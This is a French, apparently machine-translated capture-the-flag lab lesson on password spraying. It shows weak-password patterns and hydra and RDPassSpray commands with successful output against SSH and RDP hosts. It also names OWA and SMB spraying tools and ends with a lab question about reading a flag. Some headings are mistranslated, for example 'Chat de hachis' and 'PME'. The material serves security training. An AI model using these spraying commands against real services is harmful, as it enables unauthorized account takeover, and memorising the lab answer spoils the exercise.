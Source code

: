 Attaque par pulvérisation de mot de passe
======================================

Cette tâche enseignera les bases d'une attaque par pulvérisation de mot de passe et les outils nécessaires pour exécuter divers scénarios d'attaque contre des services en ligne courants.

La pulvérisation de mots de passe est une technique efficace utilisée pour identifier les informations d'identification valides. De nos jours, la pulvérisation de mot de passe est considérée comme l'une des attaques de mot de passe courantes pour découvrir des mots de passe faibles. Cette technique peut être utilisée contre divers services en ligne et systèmes d'authentification, tels que SSH, SMB, RDP, SMTP, Outlook Web Application, etc. Une attaque par force brute cible un nom d'utilisateur spécifique pour essayer de nombreux mots de passe faibles et prévisibles. Alors qu'une attaque par pulvérisation de mot de passe cible de nombreux noms d'utilisateur en utilisant un mot de passe faible commun, cela pourrait aider à éviter une politique de verrouillage de compte. La figure suivante explique le concept d'attaques par pulvérisation de mot de passe où l'attaquant utilise un mot de passe commun contre plusieurs utilisateurs.

![17bdbbc66c5924d99823be70e98832ed](https://github.com/dsgsec/Red-Team/assets/82456829/516a043a-6f89-4735-aac7-c3b55360bd5c)

Les mots de passe courants et faibles suivent souvent un modèle et un format. Certains mots de passe couramment utilisés et leur format général se trouvent ci-dessous.

-   La saison en cours suivie de l'année en cours (SeasonYear). Par exemple, Automne 2020 , Printemps 2021 , etc.
-   Le mois en cours suivi de l'année en cours (MonthYear). Par exemple, novembre2020 , mars2021 , etc.
-   Utiliser le nom de l'entreprise avec des nombres aléatoires (CompanyNameNumbers). Par exemple,  TryHackMe01 ,  TryHackMe02 .

Si une politique de complexité des mots de passe est appliquée au sein de l'organisation, nous devrons peut-être créer un mot de passe qui inclut des symboles pour répondre à l'exigence, comme  Octobre2021 ! ,  printemps 2021 ! , October2021@ ,  etc.  Pour réussir l'attaque par pulvérisation de mot de passe, nous devons énumérer la cible et créer une liste de noms d'utilisateur valides (ou une liste d'adresses e-mail) . 

Ensuite, nous appliquerons la technique de pulvérisation de mot de passe en utilisant différents scénarios contre divers services, notamment :

-   SSH
-   RDP
-   Portail d'accès Web Outlook (OWA)

-   PME

### SSH

Supposons que nous ayons déjà énuméré le système et créé une liste de noms d'utilisateur valides.

Chat de hachis

```
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy

```

Ici, nous pouvons utiliser  hydra  pour effectuer l'attaque par pulvérisation de mot de passe contre le service SSH en utilisant le  mot de passe Spring2021  .

Chat de hachis

```
user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found

```

Notez que  L  doit charger la liste des noms d'utilisateur valides et  -p  utilise le  mot de passe Spring2021  contre le service SSH à  10.1.1.10 . La sortie ci-dessus montre que nous avons réussi à trouver les informations d'identification.

### RDP

Supposons que nous ayons trouvé un service RDP exposé sur le port 3026. Nous pouvons utiliser un outil tel que  [RDPassSpray](https://github.com/xFreed0m/RDPassSpray)  pour pulvériser un mot de passe contre RDP. Tout d'abord, installez l'outil sur votre machine attaquante en suivant les instructions d'installation du référentiel GitHub de l'outil. En tant que nouvel utilisateur de cet outil, nous allons commencer par exécuter la  commande python3 RDPassSpray.py -h  pour voir comment les outils peuvent être utilisés :

Chat de hachis

```
user@THM:~# python3 RDPassSpray.py -h
usage: RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]

optional arguments:
  -h, --help            show this help message and exit
  -U USERLIST, --userlist USERLIST
                        Users list to use, one user per line
  -u USER, --user USER  Single user to use
  -p PASSWORD, --password PASSWORD
                        Single password to use
  -P PASSWORDLIST, --passwordlist PASSWORDLIST
                        Password list to use, one password per line
  -T TARGETLIST, --targetlist TARGETLIST
                        Targets list to use, one target per line
  -t TARGET, --target TARGET
                        Target machine to authenticate against
  -s SLEEP, --sleep SLEEP
                        Throttle the attempts to one attempt every # seconds, can be randomized by passing the value 'random' - default is 0
  -r minimum_sleep maximum_sleep, --random minimum_sleep maximum_sleep
                        Randomize the time between each authentication attempt. Please provide minimun and maximum values in seconds
  -d DOMAIN, --domain DOMAIN
                        Domain name to use
  -n NAMES, --names NAMES
                        Hostnames list to use as the source hostnames, one per line
  -o OUTPUT, --output OUTPUT
                        Output each attempt result to a csv file
  -V, --verbose         Turn on verbosity to show failed attempts

```

Maintenant, essayons d'utiliser l'option (-u) pour spécifier la  victime  comme nom d'utilisateur et l'option (-p) définit le  Spring2021 ! . L'option (-t) consiste à sélectionner un seul hôte à attaquer .

Chat de hachis

```
user@THM:~# python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
[13-02-2021 16:47] - Total number of users to test: 1
[13-02-2021 16:47] - Total number of password to test: 1
[13-02-2021 16:47] - Total number of attempts: 1
[13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
[13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!

```

La sortie ci-dessus montre que nous avons réussi à trouver des informations d'identification valides  victim:Spring2021 ! .  Notez que nous pouvons spécifier un nom de domaine en utilisant l'  option -d  si nous sommes dans un environnement Active Directory .

Chat de hachis

```
user@THM:~# python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
```

Il existe divers outils qui effectuent une attaque par pulvérisation de mot de passe contre différents services, tels que :

### Portail d'accès Web Outlook (OWA)

Outils:

-   [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)  (atomizer.py)
-   [MailSniper](https://github.com/dafthack/MailSniper)

### PME

-   Outil : Metasploit (auxiliaire/scanner/smb/smb_login)

Répondre aux questions ci-dessous

Utilisez la liste de noms d'utilisateur suivante :

Attaque par pulvérisation de mot de passe !

```
user@THM:~# cat usernames-list.txt
admin
phillips
burgess
pittman
guess
```

Effectuez une  attaque par pulvérisation de mot de passe  pour accéder au   serveur  SSH://MACHINE_IP afin de lire /etc/flag . Quel est le drapeau ?
